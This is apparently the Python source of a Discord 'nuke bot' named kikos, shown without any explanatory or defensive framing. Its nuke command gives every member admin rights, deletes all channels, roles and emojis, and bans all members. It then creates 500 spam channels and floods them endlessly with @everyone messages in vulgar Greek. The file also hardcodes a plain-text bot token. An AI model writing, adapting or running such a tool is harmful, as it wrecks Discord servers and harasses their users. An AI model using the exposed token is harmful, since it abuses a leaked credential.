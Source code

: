 # kikos
 import discord from discord.ext import commands import random from discord import Permissions from colorama import Fore, Style import asyncio  token = "OTA0Mzc0OTUxOTYyODg2MTU2.YX6mzw.my8PSfXHn6s7WUiMLzkUaqfwTqY"   SPAM_CHANNEL =  ["#nuked poutanes"] SPAM_MESSAGE = ["@everyone pali poutsa blaka @here"]   client = commands.Bot(command_prefix="-")   @client.event async def on_ready():    print('''      ███╗░░██╗██╗░░░██╗██╗░░██╗███████╗  ██████╗░░█████╗░████████╗ ████╗░██║██║░░░██║██║░██╔╝██╔════╝  ██╔══██╗██╔══██╗╚══██╔══╝  ██╔██╗██║██║░░░██║█████═╝░█████╗░░  ██████╦╝██║░░██║░░░██║░░░  ██║╚████║██║░░░██║██╔═██╗░██╔══╝░░  ██╔══██╗██║░░██║░░░██║░░░  ██║░╚███║╚██████╔╝██║░╚██╗███████╗  ██████╦╝╚█████╔╝░░░██║░░░   ╚═╝░░╚══╝░╚═════╝░╚═╝░░╚═╝╚══════╝  ╚═════╝░░╚════╝░░░░╚═╝░░░     ''')    await client.change_presence(activity=discord.Game(name="Ton server sou"))  @client.command() @commands.is_owner() async def stop (ctx):     await ctx.bot.logout()     print (Fore.GREEN + f"{client.user.name} has logged out successfully." + Fore.RESET)  @client.command() async def nuke (ctx):     await ctx.message.delete()     guild = ctx.guild     try:       role = discord.utils.get(guild.roles, name = "@everyone")       await role.edit(permissions = Permissions.all())       print(Fore.MAGENTA + "I have given everyone admin." + Fore.RESET)     except:       print(Fore.GREEN + "I was unable to give everyone admin" + Fore.RESET)     for channel in guild.channels:       try:         await channel.delete()         print(Fore.MAGENTA + f"{channel.name} was deleted." + Fore.RESET)       except:         print(Fore.GREEN + f"{channel.name} was NOT deleted." + Fore.RESET)     for member in guild.members:      try:        await member.ban()        print(Fore.MAGENTA + f"{member.name}#{member.discriminator} Was banned" + Fore.RESET)      except:        print(Fore.GREEN + f"{member.name}#{member.discriminator} Was unable to be banned." + Fore.RESET)     for role in guild.roles:      try:        await role.delete()        print(Fore.MAGENTA + f"{role.name} Has been deleted" + Fore.RESET)      except:        print(Fore.GREEN + f"{role.name} Has not been deleted" + Fore.RESET)     for emoji in list(ctx.guild.emojis):      try:        await emoji.delete()        print(Fore.MAGENTA + f"{emoji.name} Was deleted" + Fore.RESET)      except:        print(Fore.GREEN + f"{emoji.name} Wasn't Deleted" + Fore.RESET)     banned_users = await guild.bans()     for ban_entry in banned_users:       user = ban_entry.user       try:         await user.unban("𝐘𝐨𝐮𝐫_𝐔𝐬𝐞𝐫")         print(Fore.MAGENTA + f"{user.name}#{user.discriminator} Was successfully unbanned." + Fore.RESET)       except:         print(Fore.GREEN + f"{user.name}#{user.discriminator} Was not unbanned." + Fore.RESET)     await guild.create_text_channel("Nuked poutanes")     for channel in guild.text_channels:         link = await channel.create_invite(max_age = 0, max_uses = 0)         print(f"New Invite: {link}")     amount = 500     for i in range(amount):        await guild.create_text_channel(random.choice(SPAM_CHANNEL))     print(f"nuked {guild.name} Successfully.")     return  @client.event async def on_guild_channel_create(channel):   while True:     await channel.send(random.choice(SPAM_MESSAGE))  client.run(token, bot=True)= 
